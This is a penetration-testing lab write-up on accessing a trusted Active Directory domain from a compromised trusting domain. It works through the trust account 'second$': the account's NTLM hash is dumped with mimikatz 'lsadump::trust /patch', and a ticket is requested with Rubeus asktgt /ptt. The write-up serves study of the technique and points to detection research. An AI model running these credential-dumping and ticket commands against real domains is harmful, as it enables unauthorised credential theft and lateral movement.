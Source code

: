 # Abusing Trust Account$: Accessing Resources on Trusted Domain from Trusting Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain as the trusts account.

In our situation, considering that `first.local` is a trusted domain trusted by the trusting domain second.local, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the account we want to and CAN compromise from second.local, assuming we have domain admin privileges on `second.local`.

## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1092).png>)

```
# on second-dc.second.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1089).png>)

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

![](<../../.gitbook/assets/image (1094).png>)

Confirm that we can enumerate resources on the trusting domain `second.local` from `first.local`:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1085).png>)

Confirm that we cannot (just yet, but this is soon to change) enumerate resources on the trusted domain `first.local` from the trusting domain :

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1091).png>)

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin privileges on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

![](<../../.gitbook/assets/image (1093).png>)

Note the RC4 hash in \[out] `first.local` -> `second.local` line - this is the NTLM hash for `first.local\second$`, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

![](<../../.gitbook/assets/image (1095).png>)

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local` - and this concludes the technique, showing that it's possible to access resources on a trusted domain (as a low privileged user), given the trusting domain is compromised:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

![](<../../.gitbook/assets/image (1090).png>)

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
